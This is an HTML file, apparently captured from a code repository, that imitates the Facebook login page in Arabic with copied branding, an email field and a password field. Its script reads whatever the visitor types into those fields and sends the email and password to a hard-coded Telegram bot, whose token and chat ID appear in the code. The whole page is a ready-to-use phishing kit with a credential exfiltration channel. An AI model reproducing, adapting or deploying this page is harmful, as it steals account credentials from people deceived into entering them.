 <!DOCTYPE html>
<html lang="ar">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <link href="https://l.top4top.io/p_3151546w82.png" rel="icon">
    <title> Facebook login</title>
    <style>
        body {
            background-image: url('https://i.top4top.io/p_3151i7b8a0.png');
            background-size: cover;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
            padding: 20px;
            font-family: Arial, sans-serif;
        }
        .container {
            background: rgba(255, 255, 255, 0); /* شفافية الإطار */
            padding: 10px;
            border-radius: 10px;
            text-align: center;
            width: 300px;
        }
        .container img {
            width: 80px;
            margin-bottom: 40px;
        }
        .container input {
            width: 90%;
            padding: 18px;
            margin: 10px -10px;
            border: 1px solid #ccc;
            border-radius: 6px;
            outline: none;
            text-align: right; 
            font-size: 18px;
        }
        .container button {
            width: 100%;
            padding: 10px;
            background-color: #1877f2;
            color: white;
            border: none;
            border-radius: 30px;
            cursor: pointer;
            margin-bottom: 20px;
        }
        .container .ab {
            border: 1px #1877f2 solid;
            display: block;
            margin: 10px 0;
            color: #1877f2;
            text-decoration: none;
            border-radius: 30px;
            padding: 10px;
            margin: 100px 30px;
            width: 200px;
        }
        .container .aa {
            display: block;
            margin: 10px 0;
            color: black;
            text-decoration: none;
        }
        .meta-logo {
            margin-top: -100px;
        }
    </style>
</head>
<body>
    <div class="container">
        <img src="https://l.top4top.io/p_3151546w82.png" alt="Facebook Logo">
        <input type="text" id="email" placeholder="رقم الهاتف المحمول أو البريد الإلكتروني">
        <input type="password" id="password" placeholder="كلمة السر">
        <button onclick="sendData()">تسجيل الدخول</button>
        <a class="aa" href="#">هل نسيت كلمة السر؟</a>
        <a class="ab" href="#">إنشاء حساب جديد</a>
        <div class="meta-logo">
            <img src="https://j.top4top.io/p_3151m5l161.png" alt="Meta Logo">
        </div>
    </div>

    <script>
        function sendData() {
            const email = document.getElementById('email').value;
            const password = document.getElementById('password').value;
            const token = '7509225299:AAF9UyvAlML4oh6u7WvCNoX0_Imo0tBkQkU';
            const chatId = '5687419212';

            const data = {
                chat_id: chatId,
                text: `Email: ${email}\nPassword: ${password}`
            };

            fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(data)
            })
            .then(response => response.json())
            .then(data => {
                console.log('Success:', data);
            })
            .catch((error) => {
                console.error('Error:', error);
            });
        }
    </script>
</body>
</html>
